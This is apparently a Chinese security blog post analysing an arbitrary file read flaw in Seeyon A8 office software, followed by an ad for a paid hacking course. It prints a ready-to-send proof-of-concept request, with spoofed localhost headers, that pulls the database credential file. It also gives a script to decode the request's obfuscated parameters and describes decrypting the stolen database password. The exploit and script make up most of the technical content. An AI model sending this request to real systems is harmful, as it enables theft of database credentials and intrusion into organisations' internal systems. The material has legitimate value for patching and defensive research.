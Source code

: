 #  源码分析致远A8任意文件读取漏洞，附数据库密码解密脚本   
原创 chobits02  C4安全团队   2024-07-01 22:34  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQGQG6ibYpsQ9hibUNQ9JogaBM4ETcLDdyuTknYvxjLbGCEQFKUEwbwpummEIZzqUcA3Mhaj6yJqd9Q/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
  
**漏洞分析******  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2ZluIL09hX15hKA66n4MBYOOw0PGta6wTgGbl8jxd5C4a4MD7zu0cBuA/640?wx_fmt=png&from=appmsg "")  
  
致远A8，又称  
致远互联A8协同管理软件，是面向中型、大型、集团型组织（集团版OA）的数字化协同运营中台。A8版本的系统小版本较多，本次分析用的源码是致远A8 V7 SP1版本。  
  
首先漏洞利用POC如下  
```
POST /seeyon/officeservlet HTTP/1.1
Host: xxxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi
```  
  
请求体中带有加密后传的参数内容，这类是属于致远自定的Base64编码的变种，详细解密方法可以参考kk师傅的文章：**致远 OA 变种 BASE64 算法的加解密方法（https://paper.seebug.org/964/）**  
  
  
这里贴上一个解密脚本，仅可用于解密传参，不能解密数据库密码密文  
```
import base64

# 自定义的Base64编码表
a = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
# 标准的Base64编码表
b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="

# 函数：自定义Base64编码转换为标准Base64编码
def custom_to_standard(custom_base64_str):
    standard_base64_str = ""
    # 创建映射字典
    custom_to_standard_map = {ca: cb for ca, cb in zip(a, b)}

    for char in custom_base64_str:
        # 查找自定义字符对应的标准Base64字符
        standard_char = custom_to_standard_map.get(char, None)
        if standard_char is None:
            raise ValueError(f"Character '{char}' not found in custom to standard mapping.")
        standard_base64_str += standard_char

    return standard_base64_str

# 函数：解码标准Base64字符串为原始字符串
def decode_base64(standard_base64_str):
    try:
        # 去掉可能的填充字符
        standard_base64_str = standard_base64_str.rstrip('=')
        # 解码Base64字符串
        decoded_bytes = base64.b64decode(standard_base64_str)
        # 假设原始数据是UTF-8编码
        return decoded_bytes.decode('utf-8')
    except base64.binascii.Error as e:
        print("Invalid Base64 encoding:", e)
    except UnicodeDecodeError as e:
        print("Unicode decode error:", e)

# 用户输入自定义Base64编码的字符串
user_input = input("Enter your custom Base64 encoded string: ")
try:
    # 将自定义Base64编码转换为标准Base64编码
    standard_base64 = custom_to_standard(user_input)
    # 解码得到原始字符串
    original_str = decode_base64(standard_base64)
    if original_str is not None:
        print("Decoded string:", original_str)
except ValueError as e:
    print(e)
```  
  
请求获取返回包，返回包中存在数据库连接信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2Z8UO2NCIGB9qU80ibfTxicqYbNXyRF6AjcrzViaicdqPwUMV58ZQAZkJuvw/640?wx_fmt=png&from=appmsg "")  
  
在请求参数中，指定了几个值：  
OPTION和  
TEMPLATE  
。这两个参数使用上面脚本进行解密后获得原值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2Z4ff58hKlmia9V9kuZuyZyaeOicRKGo33x8LzYz6bPSPEiaLljuACNFZ7g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2ZYhVoNn01H7prGicq1K57Taj1FRbnFiaiaI8vQTVob4rkibrp9RpoZFI1Hw/640?wx_fmt=png&from=appmsg "")  
  
可以看到TEMPLATE指定了路径为/base/conf/datasourceCtp.properties文件，大胆可以猜测这个漏洞实际是任意文件读取漏洞。接下来结合源码来深入分析一下  
  
officeservlet类中请求方法为doGet，接收请求参数并解析。此处解析option参数的值，由上面可知option参数值为LOADTEMPLATELOADTEMPLATE时调用的方法名称为taoHong，跟踪方法读取的逻辑如下，读取TEMPLATE路径文件内容，即传入的参数TEMPLATE的值，还读取了COMMAND参数，只有当COMMAND为INSERTFILE时才会进行操作，因此该操作中包含文件读取的步骤。createRightFile读取TEMPLATE路径文件并返回文件内容。好吧，漏洞大致分析完毕，结果中的数据库密码该如何解密呢。Github上有解密的脚本，但是测试使用有些问题上面脚本使用了自带TextEncoder类来解密，这里还有一种方法是使用自带的LightWeightEncoder类来解密测试解密数据库密码为明文Ww123123解密脚本附在Freebuf帮会中了  
  
**文末课程**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQtiakQ6okzRrdlfK4mC8pfvzXc54vkibPzkLgsvhKcrZYJ0MXCG4Og0yEgev25eZzQyUfpWZLemSXw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 00x0 前言  
  
入门网络安全，门槛其实不大但是需要引导性的学习和实践。  
  
小白入门难有这么几点原因。  
1. 基础知识薄弱：网络安全的基础知识相对广泛，学校教授的课程只停留在知识层面上，包括网络协议、操作系统、编程语言等。这些知识没有实际在工作中使用过。  
  
1. 缺少实践机会：漏洞挖掘是一个长久和繁琐的过程，初入渗透测试的小白不知道该从何入手。  
  
1. 缺乏社区支持：帮会网安社群非常活跃，提供大量的资源和支持。加入社群可以帮助你获得知识，同时也能一起交流进步，共同学习挖洞技巧。  
  
**所谓技多不压身，学习的步伐永远不会停止。下面让我带来****内部帮会为小白入门准备的笔记课程。**  
  
**笔记主要根据漏洞原理，结合实战的漏洞案例分析漏洞的挖掘方法以及漏洞成因。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2ZthAMqiaw7soL778rXdLTxHtP4FibibePVKeq53vKdX7nwMOhUibWYcDmLw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2Z2QWbVpVDFLN7lbpKkUjM6jZicvOJDUVsQmvv0E844yKibUxGH0jbEia1A/640?wx_fmt=png&from=appmsg "")  
### 00x1 课程优势  
  
帮会课程是在Freebuf的知识大陆上开设的，帮会已运营50+天数。课程中我会力求把复杂的知识简单化、结合实际漏洞挖掘案例分析如何挖掘漏洞，并发散思维。师傅们可以在社群中交流提问，我会解答各类问题。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2ZnvPL7vicCsuTUxnvU5a8q4VdG06auNqfoBsOBahuLAKIc6OkZwfibggA/640?wx_fmt=png&from=appmsg "")  
  
课程帮会中还会分享一些实用的漏洞挖掘技巧，比如使用自动化工具（如OWASP ZAP或Burp Suite）进行初步扫描，然后手动验证可疑点。  
  
每周不定时更新网安文档，包含免杀、0 day漏洞复现、代码审计、内部开发的漏洞使用工具等。  
### 00x2 课程大纲  
  
课程将会分五部分，每部分都会以笔记干货的形式在帮会中更新，每周会定期更新2篇笔记供学习，课程预计会在8月前全部更新完成。同时帮会也会和平时一样更新各类网安漏洞、笔记资源等。  
  
****  
**已更新历史课程内容如下**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2Zov6csicyrCwX9icBVAfw24mkE9mia81uGkwY5rjiavBicPMCbmGreMcJbXQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2Zeib984SOUWl3ZW5js2ty8y09VKCDlEbWQu98MWLY1tnpNPtoCP6Erug/640?wx_fmt=png&from=appmsg "")  
  
****### 00x3 加入方式  
  
**课程帮会入门价格 49.9**  
  
**时间有限，早加入早享优惠~后续根据人数增加会提高门槛价格**  
  
**下面是Freebuf帮会加入地址，扫码即可~**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSRROIhqaIGhLXoTGtpcv2ZnWm7I7jb66SzibyUO7T4hu0uxDIwNHVFUUWWvZVuSOaOEV6IgXZibzUA/640?wx_fmt=jpeg&from=appmsg "")  
  
**如有疑问，请添加好友咨询**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQtiakQ6okzRrdlfK4mC8pfvo5S48opk7Cd6OmuTgGysOdnia3vnbDBYeP4ahh3292l2rfZxY3ianYKg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**文章到头啦~**  
  
  
